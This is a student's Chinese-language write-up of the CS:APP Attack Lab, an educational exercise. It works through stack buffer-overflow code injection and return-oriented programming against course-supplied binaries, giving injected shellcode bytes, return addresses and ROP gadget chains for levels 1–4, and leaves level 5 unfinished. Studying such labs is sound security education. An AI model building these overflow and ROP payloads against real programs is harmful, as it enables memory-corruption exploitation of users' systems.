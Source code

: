 #	Attack Lab

姓名：龚X
学号：PB17030XX8

##	Code Injecting Attacks

###	Level 1

需要注入的代码

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

很明显针对`getbuf（）`进行注入攻击。

`getbuf（）`汇编

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以利用滑步修改getbuf的返回地址为Touch1的地址。

Touch1的地址

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

所以我们的字符串即为：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  #touch1 函数的地址，注意在x86是小端系统 
```

结果

![1556783646931](assets/1556783646931.png)

###	Level 2

需要攻击的代码还是如上的text函数，只不过这次要运行touch2函数

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(2);
}
```

其实和Level 类似，只不过是针对缓存区进行攻击，除了注入函数地址外，还要注入参数。

touch2地址

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,00%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

`Cookie = 0x59b997fa`

所以注入的汇编代码为

```assembly
mov $0x59b997fa, %rdi  	#设置变量
push $0x4017ec			#返回地址
ret
```

对于二进制码为

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

通过断点，找到这段代码的地址为0x5561dc78

所以最后我们的注入代码为

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果为

![1556786242718](assets/1556786242718.png)

###	Level 3

需要注入的代码

```c
void touch3(char *sval)
{
    vlevel = 3;
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

本题类似Level2，但是需要注意的是采用字符串比较，使用间接应用，应将cookie放在栈中较为安全的位置，使得注入攻击发动后，字符不会被覆盖，由栈的特点和system 5函数调用标准，在注入地址后面追加cookie就不会被覆盖。

先找到test返回地址所在位置。

![1556787385588](assets/1556787385588.png)

为0x5561dcb0

所以注入的cookie的地址为0x5561dca8（0x5561dcb0 - 8 bytes），

所以注入的代码为

```assembly
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61  # cookie asicc 表示
```

结果

![1556790505565](assets/1556790505565.png)

##	Return-Oriented Programming Attacks

###	Level 4

与level 2 类似，但是这次要求使用程序原有的代码进行攻击。

我们需要的指令为

```assembly
popq	%rax
mov		%rax,	%rdi
```

查找汇编，指令一对应的地址为

```assembly
0x4019ab
```

指令二对应的地址为

```assembly
0x4019c5
```

所以注入的代码为

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
C5 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```

结果：

![1556794093919](assets/1556794093919.png)

需要说明的是，不使用用%rax，使用别的寄存器也是可以完成攻击的。

###	Level 5

与level 3类似。

注入的字符串结构组织

```assembly
溢出区
gadgetk 地址
.......
.......
touch3 地址
cookie
```

大致知道怎么做，但是好麻烦。（留着以后写，如果以后我还能想起来的话）
